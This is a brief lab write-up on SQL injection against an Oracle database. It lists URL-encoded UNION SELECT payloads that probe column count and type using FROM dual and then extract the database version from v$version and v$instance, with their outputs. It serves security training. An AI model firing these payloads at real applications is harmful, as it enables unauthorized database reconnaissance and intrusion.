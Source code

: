 # Lab: SQL injection attack, querying the database type and version on Oracle
## Description
Objective is to extract the database version string.

Using simple `UNION SELECT NULL,.....` didn't seem to work, because we need to use `FROM dual` when targeting an Oracle Database.

The following identified the user of two columns in the query:
```
'+UNION+SELECT+NULL,NULL+FROM+dual--
```

The first column was confirmed to be of type `string`
```
'+UNION+SELECT+'bah',NULL+FROM+dual--
```

Now, we need to get the database.
```
'+UNION+SELECT+banner,NULL+FROM+v$version--
```
Returned `TNS for Linux: Version 11.2.0.2.0 - Production`


## Solution
Payload: `'+UNION+SELECT+version,NULL+FROM+v$instance--`

Output: `11.2.0.2.0`

